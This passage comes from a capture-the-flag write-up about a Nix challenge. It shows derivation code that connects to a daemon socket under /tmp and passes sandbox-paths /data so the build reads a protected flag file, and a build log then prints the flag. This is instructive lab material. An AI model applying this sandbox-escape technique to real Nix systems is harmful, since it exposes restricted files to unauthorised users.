 ```nix
let
  pkgs = import <nixpkgs> {};
in {
  exploit-inner = pkgs.stdenv.mkDerivation {
    name = "exploit-inner";

    phases = ["installPhase"];

    installPhase = ''
      mkdir $out
      cat /data/flag
      cp /data/flag $out
    '';
  };
}
```

It is now possible to build this from the outer flake,
while making sure to pass it the path to `nixpkgs`, which
cannot otherwise be found by `nix-build`:

```nix, hl_lines=9-11
{
  # ...
  packages.${system}.exploit = pkgs.stdenv.mkDerivation {
    # ...
    src = ./inner.nix;
    installPhase = ''
      export NIX_REMOTE=unix:///tmp/daemon
      cp $src default.nix
      nix-build -A exploit-inner \
        -I nixpkgs=${nixpkgs} \
        --option sandbox-paths /data
      mkdir $out
      cp result/flag $out
    '';
  };
}
```

Copying these files to the VM and building the derivation gives
us the flag! :tada:

```hl_lines=16
[user@nixos:~]$ nix build .#exploit
warning: Option 'accept-flake-config' is too dangerous, skipping.
warning: Option 'allow-new-privileges' is too dangerous, skipping.
warning: Option 'build-hook' is too dangerous, skipping.
warning: Option 'post-build-hook' is too dangerous, skipping.
warning: Option 'pre-build-hook' is too dangerous, skipping.
error: builder for '/nix/store/sz3117jmlliqvnsd3f7g3vnigfa97x2r-exploit.drv' failed with exit code 1;
       last 10 log lines:
       > warning: Option 'accept-flake-config' is too dangerous, skipping.
       > warning: Option 'allow-new-privileges' is too dangerous, skipping.
       > warning: Option 'build-hook' is too dangerous, skipping.
       > warning: Option 'post-build-hook' is too dangerous, skipping.
       > warning: Option 'pre-build-hook' is too dangerous, skipping.
       > building '/nix/store/rbyna569136fcxdd8g38vmg2dwkjb4a6-exploit-inner.drv'...
       > Running phase: installPhase
       > kalmar{faker_flag}
       > /nix/store/34arwa2ixqh46sc9v3gksgiglxpmzfll-exploit-inner
       > cp: cannot stat 'result/flag': No such file or directory
       For full logs, run 'nix log /nix/store/sz3117jmlliqvnsd3f7g3vnigfa97x2r-exploit.drv'.
```


[Mastodon post]: https://hachyderm.io/@leftpaddotpy/112103523507978883
[daemon-snippet]: https://github.com/NixOS/nix/blob/2.13.6/src/nix/daemon.cc#L244-L252
[breaks RPM builds]: https://github.com/NixOS/nix/commit/98968fbb63a1a049b2439bfc2a7d53e5b51471e3
[daemon-log-message]: https://github.com/NixOS/nix/blob/2.13.6/src/nix/daemon.cc#L215-L217
[nix-pe-issue]: https://github.com/NixOS/nix/issues/9649#issuecomment-1868001568
[daemon-ops]: https://github.com/NixOS/nix/blob/2.13.6/src/libstore/daemon.cc#L269
[@nrab@hachyderm.io]: https://hachyderm.io/@nrab
[diff-hook-manual]: https://github.com/NixOS/nix/blob/2.13.6/doc/manual/src/advanced-topics/diff-hook.md
[setuid-wrappers]: https://discourse.nixos.org/t/how-to-create-setuid-wrapper-for-installed-program/2590/2
[su-output]: https://github.com/NixOS/nixpkgs/blob/6e2f00c83911461438301db0dba5281197fe4b3a/pkgs/os-specific/linux/shadow/default.nix#L88-L90
[setuid-shell]: https://unix.stackexchange.com/questions/364/allow-setuid-on-shell-scripts
[remove-trusted-users]: https://github.com/diogotcorreia/dotfiles/commit/e8cd4c0676eb8cc6ce7c7e814846831568adb735
[@leftpaddotpy]: https://hachyderm.io/@leftpaddotpy